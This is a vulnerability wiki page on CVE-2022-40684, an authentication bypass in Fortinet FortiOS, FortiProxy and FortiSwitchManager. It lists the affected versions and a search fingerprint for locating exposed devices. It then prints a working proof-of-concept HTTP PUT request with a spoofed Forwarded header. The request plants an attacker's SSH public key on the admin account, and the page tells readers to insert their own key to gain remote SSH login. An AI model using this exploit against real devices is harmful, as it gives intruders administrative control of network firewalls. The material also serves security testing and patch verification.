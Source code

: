 # Fortinet FortiOS admin remote command execution vulnerability CVE-2022-40684

## Vulnerability Description

Fortinet pointed out on Monday that the CVE-2022-40684 authentication patched last week bypasses security vulnerabilities and is being widely exploited in the wild. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">FortiOS <= 7.2.1、7.2.0、7.0.6、7.0.5、7.0.4、7.0.3、7.0.2、7.0.1、7.0.0</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">FortiProxy <= 7.2.0、7.0.6、7.0.5、7.0.4、7.0.3、7.0.2、7.0.1、7.0.0</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">FortiSwitchManager <= 7.2.0、7.0.0</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="FortiProxy"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1666071814971-81c710e9-88e2-4d38-9a74-9562d4ab7f51-20221018134817098.png)

Verify the POC, replace the admin username and ssh key in ssh-public-key1 when using it, and add remote SSH login credentials

```java
PUT /api/v2/cmdb/system/admin/admin HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 597
Content-Type: application/json
Forwarded: for="[127.0.0.1]:8888";by="[127.0.0.1]:8888"
User-Agent: Report Runner

{"ssh-public-key1": "123"}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1666071940784-a4fb7239-bc4e-4a56-9bd2-1a3447dc40cf-20221018134812305.png)